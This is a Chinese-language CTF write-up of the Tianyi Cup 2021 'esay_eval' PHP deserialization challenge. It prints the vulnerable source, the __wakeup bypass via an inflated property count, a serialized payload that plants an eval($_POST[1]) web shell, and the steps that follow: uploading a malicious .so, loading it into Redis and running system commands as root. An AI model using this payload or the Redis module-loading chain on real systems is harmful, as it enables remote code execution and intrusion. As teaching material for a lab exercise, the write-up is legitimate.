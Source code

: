 ```yaml
---
title: 天翼杯2021 esay_eval
date: 2022-05-11 20:41:07
tags: 
    - CTF
categories: CTF
my: esay_eval
---
```


题目源码：

``` php
<?php
class A{
    public $code = "";
    function __call($method,$args){
        eval($this->code);
        
    }
    function __wakeup(){
        $this->code = "";
    }
}

class B{
    function __destruct(){
        echo $this->a->a();
    }
}
if(isset($_REQUEST['poc'])){
    preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);    
    }


}else{
    highlight_file(__FILE__);
}
```

上来是个简单（bushi）的反序列化拿shell，但是A类里面的`__wakeup()`函数会把我们传进去的`$code`属性置为空，这里我们只需要让`__wakeup()`函数失效，CVE-2016-7124:当反序列化字符串中，表示属性个数的值大于真实属性个数时，会绕过 __wakeup 函数的执行。(也可上b站看[视频学习](https://www.bilibili.com/video/BV1Z54y1U7up?spm_id_from=333.880.my_history.page.click)）

```php
<?php
class a{
	function __construct(){
		$this->code = $code;
	}
}
class B{
	function __construct(){
		$this->a = $a;
	}
}
$a = new a();
$a->code = 'eval($_POST[1]);';
$b = new B();
$b->a = $a;
echo serialize($b);
?>
```

得到了payload：?poc=O:1:"B":1:{s:1:"a";O:1:"a":2:{s:4:"code";s:16:"eval($_POST[1]);";}}直接不犹豫连接蚁剑.当我们以为就此结束可以拿到flag我们点击根目录发现这个shell没有访问权限，但是在/var/www/html中有上传权限，所以可以通过上传恶意的so文件，通过蚁剑的redis管理插件，进行ssrf，然后包含恶意so文件（提供一[下载地址](https://github.com/Dliv3/redis-rogue-server)）

![image.png](https://s2.loli.net/2022/05/11/jnw9QXU8NWF5eK1.png)

**注**：因为插件市场这个东西，国内基本是访问不到，我在用蚁剑访问的时候，就一直转圈圈转不出来，所以可以使用github的插件仓库下载插件，然后手动放到**antSword-master/antData/pulgins**中，再次打开蚁剑后，会自动加载该插件（或者科学上网）

我们上传一个exp.so文件

![image.png](https://s2.loli.net/2022/05/11/hBI54UzwPbXysgo.png)

![image.png](https://s2.loli.net/2022/05/11/39SgHdzWhoZRnEJ.png)

密码是根据/var/www/html中有个config.php.swp文件，其中有密码

![image.png](https://s2.loli.net/2022/05/11/pcECsYOIgrRfPv5.png)

![image.png](https://s2.loli.net/2022/05/11/4w9d3VIzTHDgM1x.png)

然后执行指令

![image.png](https://s2.loli.net/2022/05/11/8CGLhlsyeDYir3N.png)

```
MODULE LOAD /var/www/html/exp.so
system.exec "whoami"
```

这里我们发现是root权限

![image.png](https://s2.loli.net/2022/05/11/lAhN2fa8yWSCPwk.png)

直接看根目录   然后找到flag

```
system.exec "ls /"
system.exec "cat /flag*"
```
